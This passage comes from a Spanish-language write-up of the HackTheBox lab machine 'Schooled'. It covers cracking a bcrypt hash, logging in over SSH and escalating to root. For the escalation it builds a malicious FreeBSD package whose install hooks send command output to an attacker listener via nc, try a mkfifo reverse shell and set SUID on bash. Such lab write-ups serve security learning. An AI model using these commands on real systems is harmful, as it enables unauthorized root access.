❭ john --wordlist=/usr/share/wordlists/rockyou.txt jamie_hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
!QAZ2wsx         (?)
1g 0:00:06:00 DONE (2021-04-12 25:25) 0.002771g/s 38.50p/s 38.50c/s 38.50C/s 010188..!QAZ2wsx
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Al parecer el resultado es `!QAZ2wsx`, probemos mediante **SSH** con el usuario **jamie**:

```bash
❭ ssh jamie@10.10.10.234
Password for jamie@Schooled:
Last login: Tue Mar 16 14:44:53 2021 from 10.10.14.5
FreeBSD 13.0-BETA3 (GENERIC) #0 releng/13.0-n244525-150b4388d3b: Fri Feb 19 04:04:34 UTC 2021

Welcome to FreeBSD!
...
jamie@Schooled:~ $ id
uid=1001(jamie) gid=1001(jamie) groups=1001(jamie),0(wheel)
jamie@Schooled:~ $ 
```

Perfectísimo, tamos dentro de la máquina con una linda Shell :)

...

# Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Viendo los permisos que tiene `jamie` en el sistema, tenemos:

```bash
jamie@Schooled:~ $ sudo -l
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
```

Opa, interesante, dos permisos, uno para actualizar paquetes (supongo) y otro para instalar paquetes de la ruta donde estemos. Y ambos los podemos ejecutar como cualquier usuario del sistema.

* [INFO **pkg** binary](https://www.freebsd.org/cgi/man.cgi?query=pkg&sektion=&n=1).

📦 ***<u>pkg</u> provides an interface for manipulating packages: registering, adding, removing and upgrading packages.***

Dando vueltas para ver como podríamos explotar esto, encontramos un post donde nos muestra un script que genera un paquete para posteriormente ser instalado:

* [Creating Custom Packages on **FreeBSD**](http://lastsummer.de/creating-custom-packages-on-freebsd/).

El post toma el script por partes, pero la parte que nos interesa en la inicial, ya que es donde podemos modificar el código que queremos que se ejecute mientras el paquete se esta instalando:

```bash
#!/bin/sh

STAGEDIR=/tmp/stage
rm -rf ${STAGEDIR}
mkdir -p ${STAGEDIR}

cat >> ${STAGEDIR}/+PRE_DEINSTALL <<EOF
# careful here, this may clobber your system
echo "Resetting root shell"
pw usermod -n root -s /bin/csh
EOF

cat >> ${STAGEDIR}/+POST_INSTALL <<EOF
# careful here, this may clobber your system
echo "Registering root shell"
pw usermod -n root -s /bin/sh
EOF
```

Donde relativamente parece que resetea la Shell asignada al usuario **root**, peroooo, podríamos cambiar esos comandos por los nuestros, algo así:

```bash
#!/bin/sh

STAGEDIR=/tmp/stage
rm -rf ${STAGEDIR}
mkdir -p ${STAGEDIR}

cat >> ${STAGEDIR}/+PRE_DEINSTALL <<EOF
# careful here, this may clobber your system
echo "1 root shell"
whoami | nc 10.10.14.11 4434
EOF

cat >> ${STAGEDIR}/+POST_INSTALL <<EOF
# careful here, this may clobber your system
echo "2 root shell"
id | nc 10.10.14.11 4434
EOF
```

Intentamos que nos envíe el output de `whoami` y de `id` a nuestro listener y ver que obtenemos.

Esta parte es genérica y estructural, entiendo que es necesaria para la creación del paquete, pero no necesitamos modificar nada:

```bash
cat >> ${STAGEDIR}/+MANIFEST <<EOF
name: mypackage
version: "1.0_5"
origin: sysutils/mypackage
comment: "automates stuff"
desc: "automates tasks which can also be undone later"
maintainer: john@doe.it
www: https://doe.it
prefix: /
EOF

echo "deps: {" >> ${STAGEDIR}/+MANIFEST
pkg query "  %n: { version: \"%v\", origin: %o }" portlint >> ${STAGEDIR}/+MANIFEST
pkg query "  %n: { version: \"%v\", origin: %o }" poudriere >> ${STAGEDIR}/+MANIFEST
echo "}" >> ${STAGEDIR}/+MANIFEST

mkdir -p ${STAGEDIR}/usr/local/etc
echo "# hello world" > ${STAGEDIR}/usr/local/etc/my.conf
echo "/usr/local/etc/my.conf" > ${STAGEDIR}/plist

pkg create -m ${STAGEDIR}/ -r ${STAGEDIR}/ -p ${STAGEDIR}/plist -o .
```

Ahora ya podemos ejecutar el script y validar si se nos genera el paquete:

```bash
jamie@Schooled:/tmp/aver $ ./aja.sh
jamie@Schooled:/tmp/aver $ ls
aja.sh mypackage-1.0_5.txz
```

Listo, se genera correctamente (: Instalémoslo:

```bash
jamie@Schooled:/tmp/aver $ sudo /usr/sbin/pkg install *.txz
Updating FreeBSD repository catalogue...
pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
```

Pero acá se queda pensando y no hace nada, así que buscando encontramos que probablemente el tema sea que intenta actualizar el catálogo de repositorios (como dice ahí) y por eso se queda pegado. Pero en este manual tenemos el parámetro `--no-repo-update` el cual se encarga precisamente de suprimir la actualización automática que intenta hacer:

* [**pkg install** - Install packages from remote package repositories or local archives](https://man.dragonflybsd.org/?command=pkg-install&section=8).

Si volvemos a intentar pero ahora con el nuevo argumento:

```bash
jamie@Schooled:/tmp/aver $ sudo /usr/sbin/pkg install --no-repo-update *.txz
pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
pkg: Repository FreeBSD cannot be opened. 'pkg update' required
Checking integrity... done (0 conflicting)
The following 1 package(s) will be affected (of 0 checked):

New packages to be INSTALLED:
        mypackage: 1.0_5

Number of packages to be installed: 1

Proceed with this action? [y/N]: y
[1/1] Installing mypackage-1.0_5...
Extracting mypackage-1.0_5: 100%
2 root shell
jamie@Schooled:/tmp/aver $ 
```

Perfecto, se ejecuta, en nuestro listener recibimos:

```bash
❭ nc -lvp 4434
listening on [any] 4434 ...
connect to [10.10.14.11] from schooled.htb [10.10.10.234] 39175
uid=0(root) gid=0(wheel) groups=0(wheel),5(operator)
```

Oko, tenemos ejecución de comandos, pero recibimos el id, por lo tanto el primer apartado parece que no se está ejecutando, agreguemos nuestra reverse Shell en la parte de **+POST_INSTALL** (segundo apartado):

```bash
...
EOF

cat >> ${STAGEDIR}/+POST_INSTALL <<EOF
# careful here, this may clobber your system
echo "2 root shell"
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i | nc 10.10.14.11 4434 > /tmp/f
EOF

cat >> ${STAGEDIR}/+MANIFEST <<EOF
...
```

Pero al ejecutar la instalación del paquete obtenemos o errores o simplemente nada. 

Así que podemos probar a modificar la `/bin/bash` a **SUID**:

⛹️ **<u>SUID?</u>** ***... it’s a way in UNIX-like operating systems of <u>running a command as another user without providing credentials</u>.*** [pentestpartners - exploiting-suid-executables](https://www.pentestpartners.com/security-blog/exploiting-suid-executables/).

```bash
jamie@Schooled:/tmp/aver $ ls -la /bin/bash
lrwxr-xr-x  1 root  wheel  19 Apr  1 17:02 /bin/bash -> /usr/local/bin/bash
```

Vemos que `/bin/bash` tiene un link hacia `/usr/local/bin/bash`, o sea que cuando ejecutemos `/bin/bash`, esteremos ejecutando realmente `/usr/local/bin/bash`.

```bash
jamie@Schooled:/tmp/aver $ ls -la /usr/local/bin/bash
-rwxr-xr-x  1 root  wheel  941288 Feb 20 01:47 /usr/local/bin/bash
```

Entonces modificamos los permisos agregándole el **SUID** (`4`) al binario `/bin/bash`, que realmente se los estaría otorgando al binario `/usr/local/bin/bash` :)

```bash
...
EOF

cat >> ${STAGEDIR}/+POST_INSTALL <<EOF
# careful here, this may clobber your system
echo "2 root shell"
chmod 4755 /bin/bash
EOF

cat >> ${STAGEDIR}/+MANIFEST <<EOF
...
```

Generamos paquete e instalamos:

```bash
jamie@Schooled:/tmp/aver $ ./aja.sh 
jamie@Schooled:/tmp/aver $ sudo /usr/sbin/pkg install --no-repo-update *.txz
pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
pkg: Repository FreeBSD cannot be opened. 'pkg update' required
Checking integrity... done (0 conflicting)
The following 1 package(s) will be affected (of 0 checked):

New packages to be INSTALLED:
        mypackage: 1.0_5

Number of packages to be installed: 1

Proceed with this action? [y/N]: y
[1/1] Installing mypackage-1.0_5...
Extracting mypackage-1.0_5: 100%
2 root shell
jamie@Schooled:/tmp/aver $ 
```

Ahora validamos los permisos de los binarios:

```bash
jamie@Schooled:/tmp/aver $ ls -la /bin/bash
lrwxr-xr-x  1 root  wheel  19 Apr  1 17:02 /bin/bash -> /usr/local/bin/bash
jamie@Schooled:/tmp/aver $ ls -la /usr/local/bin/bash
-rwsr-xr-x  1 root  wheel  941288 Feb 20 01:47 /usr/local/bin/bash
```

Perfecto, vemos el nuevo permiso asignado con una `s` en la ejecución. 

Ahora simplemente indicamos `/usr/local/bin/bash -p` para que ejecute el programa con los permisos **SUID** que tenga asignados el objeto. Como el dueño del binario es `root`, tomara el **SUID de ese usuario**, por lo tanto tendremos una Shell como él.

```bash
jamie@Schooled:/tmp/aver $ /usr/local/bin/bash -p
[jamie@Schooled /tmp/aver]# whoami
root
```

Y si (: tenemos una sesión como **root**, solo nos quedaría ver las flags:

![335flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/schooled/335flags.png)

...

Linda máquina eh! Linda linda, me gusto mucho como le robamos la cookie al profesor y como nos aprovechamos del rol **manager** para conseguir **RCE**, muy lindo todo.

(Además que me permitió explorar a profundidad la creación de un exploit bastante **retador**)

Y bueno, como siempre y como nunca, muchísimas gracias y a seguir rompiendo todo ;)
